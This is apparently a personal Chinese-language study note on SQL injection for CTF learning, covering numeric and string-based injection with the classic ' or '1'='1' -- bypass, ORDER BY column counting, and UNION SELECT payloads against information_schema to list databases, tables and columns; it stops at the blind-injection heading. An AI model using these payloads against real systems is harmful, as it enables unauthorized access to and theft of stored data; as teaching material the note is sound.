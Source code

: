 ```yaml
---
title: WebLearning
date: 2023-07-25 19:43:58
tags:
- web
description: Web学习
---
```


# WebLearning

## SQL注入

本文参考探姬姐姐的文章，文章中均添加个人理解，若有错误请大佬联系我更正

[click here](https://ctf.tj.cn/) 

### 什么是SQL注入

sql注入是一种通过前端输入来在后端服务器执行恶意代码的攻击方式

> SQL注入的本质是后台SQL语句使用了拼接查询，未对用户输入的数据作安全处理

**SQL注入的分类** 

- 数字型注
- 字符型注
- 搜索形注

**请求方法不同，可分为**

- $_GET
- $_POST
- $_HEADER

**注入点不同，可分为** 

- 列注入
- 表注入
- order注入
- limit注入
- group by注入

### 数字型注入

#### 判断表的个数

```mysql
SELECT * FROM db.user where id=1 order by 2
```

chatgpt:该查询将返回db.user表中id等于1的行，并按照第二列的值进行排序。

[关于orderBy语法](https://www.runoob.com/sql/sql-orderby.html)

```mysql
SELECT column1, column2, ...
FROM table_name
ORDER BY column1, column2, ... ASC|DESC;
```

#### 获取数据库的库名

```mysql
select group_concat(schema_name) from information_schema.schemata;

```

**什么是schema** 

> schema:汉语意思为提要，纲要。

在mysql中，schema＝database

**information_schema** 

[information_schema](https://blog.csdn.net/kikajack/article/details/80065753)

information_schema 数据库跟 performance_schema 一样，都是 MySQL 自带的信息数据库。其中 performance_schema 用于性能分析，而 information_schema 用于存储数据库元数据(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等。
information_schema 中的表实际上是视图，而不是基本表，因此，文件系统上没有与之相关的文件。

**group_concat(schema_name)** 

MySQL `GROUP_CONCAT()` 函数将组中的字符串连接成为具有各种选项的单个字符串。

#### 猜解数据库表名

```mysql
1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database()
1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database()
# 后台执行为：
SELECT username,password FROM users WHERE id = 1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database();

```

### 字符型注入

假设有某个数据库的查询语句为

```mysql
SELECT * FROM users WHERE username='$username' AND password='$password';
```

字符型注入要注意构建 **闭合** 

>  **闭合** ：通过伪造符号来让select语句错误执行

在上述语句中，我们可以让 `username= 1'or'1'='1'--`

效果为

```mysql
SELECT * FROM users WHERE username='-1' or '1'='1' -- ' AND password='$password';
```

其中 `'1'='1'`是用真的，所以where的查询语句是成立的，就会把所有的信息都打出来

其余的方式与数字型注入差不多

- 判断列数

  ```mysql
  SELECT * FROM users WHERE username='-1' or '1'='1' order by 1-- ' AND password='$password';
  SELECT * FROM users WHERE username='-1' or '1'='1' order by 2-- ' AND password='$password';
  SELECT * FROM users WHERE username='-1' or '1'='1' order by 3-- ' AND password='$password';
  SELECT * FROM users WHERE username='-1' or '1'='1' order by 4-- ' AND password='$password'; # 报错
  ```

- 库名

  ```mysql
  SELECT * FROM users WHERE username='-1' or '1'='1' union SELECT 1,schema_name,2 FROM information_schema.schemata;-- ' AND password='$password';
  ```

- 表名

  ```mysql
  SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()-- ' AND password='$password';
  ```

- 字段名

  ```mysql
  SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(column_name),2 from information_schema.columns where table_schema=database()-- ' AND password='$password';
  ```

### 盲注

